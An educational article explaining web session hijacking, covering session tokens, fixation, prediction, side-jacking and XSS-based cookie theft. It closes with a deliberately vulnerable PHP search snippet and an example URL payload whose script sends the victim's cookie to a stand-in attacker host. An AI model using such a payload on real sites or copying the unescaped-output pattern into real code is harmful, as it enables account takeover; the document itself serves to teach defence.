

# Session Hijacking

In a *session hijacking* attack, the attacker steals the session IDs for a web application by eavesdropping on the communication between a user and an application or by gaining access to the user’s computer or web browser data. Attackers can perform session hijacking using techniques that include exploiting cross-site scripting (XSS) vulnerabilities, performing Man in the Middle (MITM) attacks, or planting malware such as trojans.



---

## Session Tokens

- Applications can create sessions to keep track of users before and after authentication.
- Once an authenticated session has been established, the session ID (or token) is temporarily equivalent to the strongest authentication method used by the application, such as username and password, one-time password, client-based digital certificate, and so on.
- In order to keep the authenticated state and track users’ progress, applications provide users with a session ID, or token.
- This token is assigned at session creation time and is shared and exchanged by the user and the web application for the duration of the session.
- The session ID is a name/value pair.

The session ID names used by the most common web application development frame works can be easily fingerprinted.

For example, it is possible to easily fingerprint these development frameworks and languages by using the following session ID names:

- PHP: PHPSESSID
- J2EE: JSESSIONID
- ColdFusion: CFID and CFTOKEN
- ASP.NET: ASP.NET_SessionId

Sometimes the session ID is included in the URL. This dangerous practice can lead to the manipulation of the ID or session fixation attacks.

---

## What attacks are related to session identifiers?

In general, malicious hackers will try to get access to session identifiers to impersonate users and gain access to their accounts/privileges. There are several specific attack techniques targeting sessions:

- *Session hijacking* is all about getting an existing session ID from a logged-in user, for example, performing man-in-the-middle (MITM) attacks to infiltrate communication between the victim’s browser and the web server or exploiting XSS vulnerabilities to access cookies in the victim’s browser.
- Session fixation uses a different approach to obtain a valid ID. The attacker generates a session ID (or has one generated by the web application) and tricks the victim into logging in using this identifier, allowing the attacker to take over the user’s session later.
- Session prediction exploits weaknesses in the way session IDs are generated. If the process is not fully random and the attacker figures out the algorithm, they can generate valid session IDs. If session identifiers are short, attackers could even use brute force attacks to guess a valid identifier.

Note that *session hijacking* is often used as an umbrella term for all attacks that lead to malicious hackers getting access to valid session IDs. In that sense, session fixation and session prediction may be considered sub-types of session hijacking.

Some sources also use the term *session hijacking* for a completely different cybersecurity topic – TCP session hijacking, which has nothing to do with web application session hijacking. Hijacking TCP/IP sessions is closely related to [](https://www.invicti.com/learn/mitm-ip-spoofing-ip-address-spoofing/)IP address spoofing– the attacker is trying to take over the existing TCP/IP session between the user and the server, not the web session.

---

## How does session hijacking work?

There are three main approaches to session hijacking: eavesdropping on user communication, gaining access to the user’s computer, and gaining access to the user’s browser data.

### Eavesdropping on communications – session side-jacking

Session hijacking techniques that rely on MITM attack techniques are called *session side-jacking* attacks. In the simplest case, when traffic is not encrypted, you only need a simple sniffer working in the same local network as the client to monitor network traffic for user connections and perform packet sniffing. This is especially common for public Wi-Fi networks.

If a website or web application uses exclusively encrypted connections, simple session sniffing won’t do, but there are other tricks that may be attempted. Some examples include:

- **SSL stripping** – the attacker tricks the web application into dropping an HTTPS connection and using the insecure HTTP protocol instead, which makes packet sniffing possible.
- **SSL hijacking** – the attacker generates a fake SSL certificate for the web application, and the victim connects to a cloned or proxy application controlled by the attacker without any certificate warnings.
- **DNS cache poisoning** – the attacker tricks the victim’s DNS cache into storing manipulated domain information, and the victim’s browser is directed to a cloned or proxy application controlled by the attacker.

Most session side-jacking attacks focus on stealing session cookies as the most common vehicle for session IDs. However, these methods are not limited to cookie hijacking, and many can be applied equally well to session tokens sent in other parts of HTTP requests, such as custom request headers or the request body.

### Gaining computer access through malware

In many cases, attackers attempt to infect user computer systems with malware such as trojans for the purpose of gaining session information. A well-known example of this is the man-in-the-browser attack, where session identifiers are stolen directly from the user’s web browser.

### Gaining cookie data through cross-site scripting

One of the most effective ways for an attacker to get a session cookie is to use a cross-site scripting attack. If your website or web application has an XSS vulnerability, the attacker would start by tricking a user into visiting your vulnerable page through a specially crafted URL. The victim is then redirected to a page that executes malicious client-side scripts in the client browser. The malicious JavaScript code accesses the user’s session cookie and sends it to an attacker-controlled server.

Here is an example of a reflected cross-site scripting (XSS) vulnerability that could be used to steal a user's session cookies:

```jsx
<?php
if (isset($_GET['search']))
{  
	$results = search_database($_GET['search']);  
	echo 'Results for "'.$_GET['search'].'":<br/>';  
	foreach ($results as $result)  
	{    
		echo $result['result']."<br/>";  
	}
}
?>
```

An attacker could inject malicious code into the *search* parameter to send the user’s session cookie to a server they control:

```jsx
http://example.com/search.php?search=<script>document.location='http://bad.example.com/thief.php?data='+document.cookie</script>
```